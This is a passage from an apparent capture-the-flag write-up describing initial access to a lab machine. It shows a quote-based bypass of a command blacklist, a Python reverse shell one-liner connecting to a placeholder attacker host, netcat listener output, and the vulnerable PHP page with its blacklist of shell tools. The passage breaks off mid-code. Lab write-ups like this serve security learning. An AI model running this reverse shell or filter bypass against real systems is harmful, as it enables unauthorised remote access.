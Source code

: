 ![hacker](/assets/images/chillhack/hacker.png)

### Initial Access

Based on the recon so far I was confident my foothold would be via the /secret directory and bypassing the command filter I might be able to either get a SSH key or reverse shell. 

I tried testing various commands and found I was able to bypass the filter using quotes. When I tried to run 'ls' before it failed however when I put the command in quotes I get a response. 

![lsworked](/assets/images/chillhack/lsworked.png)

I started a netcat listener on my attacker VM I tried a couple of reverse shell one liners but finally got success with python3.

\`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACK VM",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'\`

```highlight
└──╼ $nc -nvlp 4444
listening on [any] 4444 ...
connect to [ATTACK VM] from (UNKNOWN) [10.10.226.46] 45160
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We have a shell! Looking at index.php shows the blacklist.

```highlight
<html>                                                                                                                             
<body>                                                                                                                             
                                                                                                                                   
<form method="POST">                                                                                                               
        <input id="comm" type="text" name="command" placeholder="Command">                                                         
        <button>Execute</button>                                                                                                   
</form>                                                                                                                            
<?php                                                                                                                              
        if(isset($_POST['command']))                                                                                               
        {
                $cmd = $_POST['command'];
                $store = explode(" ",$cmd);
                $blacklist = array('nc', 'python', 'bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls');
                for($i=0; $i<count($store); $i++)
                {
                        for($j=0; $j<count($blacklist); $j++)
                        {
                                if($store[$i] == $blacklist[$j])
                                {?>
                                        <h1 style="color:red;">Are you a hacker?</h1>
                                        <style>
                                                body
                                                {
                                                        background-image: url('images/FailingMiserableEwe-size_restricted.gif');
                                                        background-position: center center;
```